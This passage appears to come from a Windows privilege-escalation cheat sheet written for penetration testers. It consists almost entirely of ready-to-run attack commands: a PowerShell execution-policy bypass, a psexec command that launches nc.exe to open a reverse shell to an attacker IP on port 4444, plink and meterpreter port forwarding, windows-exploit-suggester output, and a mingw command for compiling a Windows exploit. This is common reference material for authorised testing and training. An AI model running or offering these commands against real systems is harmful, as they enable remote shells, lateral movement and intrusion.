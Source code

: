 ```text
powershell -ExecutionPolicy Bypass -File c:\users\public\r.ps1
```

### Technique 3:

```text
psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc <attacker_ip> 4444 -e cmd.exe"
```

## Services only available from loopback

You can find services bind to the loopback interface that are not reachable through the network running. Look for **LISTENING/LISTEN**:

```text
netstat -ano
```

Port forward using plinplink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080

Port forward using meterpreter

```text
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.1.101
```

#### If powershell is blocked, you can download:

```text
https://github.com/Ben0xA/nps
```

Once you know the updates installed, you can find known exploits using windows-exploit-suggester.

```text
./windows-exploit-suggester.py -d 2017-02-09-mssb.xls -p ms16-075
[*] initiating winsploit version 3.2…
[*] database file detected as xls or xlsx based on extension
[*] searching all kb’s for bulletin id MS16-075
[+] relevant kbs [‘3164038’, ‘3163018’, ‘3163017’, ‘3161561’]
[*] done
```

{% hint style="warning" %}
In March 2017 Microsoft stopped maintaining the security bulletin search. This means the Windows Exploit Suggester database will not include any vulnerabilities or exploits found after that date. Still, this tool can still be very useful on older systems.
{% endhint %}

#### Compile windows exploit in linux:

```text
i686-w64-mingw32-gcc 18176.c -lws2_32 -o 18176.exe
```
